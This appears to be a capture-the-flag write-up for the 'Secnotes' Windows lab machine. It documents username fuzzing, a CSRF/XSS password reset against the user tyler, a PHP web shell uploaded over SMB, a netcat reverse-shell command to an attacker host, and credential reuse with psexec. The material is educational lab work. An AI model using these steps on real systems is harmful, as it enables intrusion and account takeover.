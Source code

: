 # Secnotes

<details>
<summary><strong>Summary</strong></summary>
Windows machine that uses SQL injection and some XSS with the logins for access to the notes app. Escalate privileges from there using a root shell installed on the machine.

Scan the machine and find a login page on port 80 that is running php version 7.2.7. Check for valid usernames using a fuzzing attack with the `wfuzz` tool and find `tyler`. Find that when a note is created, the website doesn't sanitize inputs and executes HTML directly. In the contactUs form, find that the command is run in powershell. Use this and the `Change Password` URL to change tyler's password. Once in Tyler's notes, find an smb share. Use that to gain initial access and a shell. Find bash installed on the machine and run it. Find the `.bash_history` file and find an administrator password. Exploit it to get root.

<summary><strong>What I Learned</strong></summary>
<body>

1. Always check the desktop directory of the user you just compromised. In these machines, there is usually good information there. I missed it this time and had to go back an hour later.
2. A bash shell running in windows can often get you root access to files that the inital user does not have access to.
3. The SMB share goes both ways. You can use inital access to upload a file like netcat or a meterpreter shell.
</body>
</details>

### Steps

Scan the machine for open ports
`nmap --open -p- -oA nmap/open <IP>`

Find ports 80, 445, and 8808 are open

#### Scan the open ports

![alt text](images/image.png)
![alt text](images/image-1.png)

Go to the website on port 80
`http://10.129.244.217/login.php`

#### Check for valid usernames using wfuzz

- find the username "tyler"

```
wfuzz -c -w /usr/share/wordlists/seclists/Usernames/Names/names.txt -d "username=FUZZ&password=password" --hs "No account found with that username." -u http://10.129.244.217/login.php
```

![alt text](images/image-3.png)

#### Create a new user and Login

Clicking around, you find the change password API on the page does not include verifying your old password, so that could be exploited later.

- If the request is changed from a POST to a GET, you can change the password.
  ![alt text](images/image-4.png)

#### Create a note and add \<center\> tags to the content of the pages

![alt text](images/image-5.png)

#### Notes and their content are centered. HTML is not sanitized at all, so website is vulnerable to XSS

![alt text](images/image-6.png)

Create an html file with an iframe in it linking to the url in the password reset page from burp.
![alt text](images/image-10.png)

Test it on yourself and find that the link takes you to the page but doesn't fill in any information or click any links. Try sending it to tyler directly.
![alt text](images/image-8.png)

It works and you can now login as tyler using the `password112` password

Check smb shares on the target machine using the credentials found in tyler's notes.
![alt text](images/image-9.png)

Login to the smb share using the credentials

`smbclient \\\\10.129.33.69\\new-site -U tyler`

Try to get a reverse shell by uploading a file to the website using the SMB share
`revsh.php`  
Use the put command from the smb share to upload the file.
![alt text](images/image-11.png)

Run it from the browser and website using
`http://10.129.44.254:8808/revsh.php?fakename=whoami`

Download netcat64 to get a better shell than the smbclient  
https://eternallybored.org/misc/netcat/

Use the smbshare to upload it to the target machine  
`put nc64.exe`

Run the netcat shell using  
`http://<RHOST>:8808/request.php?fakename=nc64.exe <LHOST> <LPORT> -e powershell`

Get a reverse shell  
![alt text](images/image-12.png)

Check the `bash.lnk` file  
Bash is installed on this windows machine, so run it using `bash`  
![alt text](images/image-13.png)

check the user and find you are running as the root user  
![alt text](images/image-14.png)

`cd` to mnt (mount) which is where the C drive is
Try `cd /root`
![alt text](images/image-15.png)

find the `.bash_history` file which contains an admin user and password
![alt text](images/image-16.png)

Get a root shell using  
`impacket-psexec administrator@<IP_ADDR>`
